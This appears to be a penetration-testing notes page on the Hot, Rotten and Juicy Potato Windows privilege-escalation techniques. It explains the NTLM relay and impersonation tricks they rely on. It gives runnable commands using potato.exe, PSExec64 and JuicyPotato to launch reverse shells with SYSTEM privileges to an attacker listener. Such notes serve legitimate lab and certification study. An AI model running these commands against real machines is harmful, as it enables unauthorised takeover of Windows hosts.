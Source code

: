 # Potatos

## Hot Potato

Hot Potato is the name of an attack that uses a spoofing attack along with an NTLM relay attack to gain SYSTEM privileges. The attack tricks Windows into authenticating as the SYSTEM user to a fake HTTP server using NTLM. The NTLM credentials then get relayed to SMB in order to gain command execution. This attack works on Windows 7, 8, early versions of Windows 10, and their server counterparts.

{% hint style="info" %}
These steps are for Windows 7, windows 10 is not vulnerable.
{% endhint %}

the exploit can be found here:

{% embed url="https://github.com/Kevin-Robertson/Tater" %}

and here is the compiled binary exploit:

{% file src="../../../.gitbook/assets/potato.exe" %}

Run the exploit with your custom reverse shell:

```text
potato.exe -ip 192.168.1.33 -cmd "C:\PrivEsc\reverse.exe" - enable_httpserver true -enable_defender true -enable_spoof true -enable_exhaust true
```

Wait for a Windows Defender update, or trigger one manually.

## Service Accounts

Service accounts can be given special privileges in order for them to run their services, and cannot be logged into directly.

Unfortunately, multiple problems have been found with service accounts, making them easier to escalate privileges with.

## Rotten Potato

The original Rotten Potato exploit was identified in 2016. Service accounts could intercept a SYSTEM ticket and use it to impersonate the SYSTEM user. This was possible because service accounts usually have the “SeImpersonatePrivilege” privilege enabled

## Juicy Potato

Rotten Potato was quite a limited exploit. Juicy Potato works in the same way as Rotten Potato, but the authors did extensive research and found many more ways to exploit.

{% embed url="https://github.com/ohpe/juicy-potato" %}

{% hint style="info" %}
These steps are for Windows 7, windows 10 is not vulnerable
{% endhint %}

Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows and start a listener.

Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

```text
PSExec64.exe -i -u "ntauthority\local service" reverse.exe
```

Start another listener on Kali

Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```text
PrivEsc\JuicyPotato.exe -l 1337 -p reverse.exe  -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

{% hint style="info" %}
If the CLSID \({03ca...\) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md
)

or run the GetCLSID.ps1 PowerShell script.
{% endhint %}

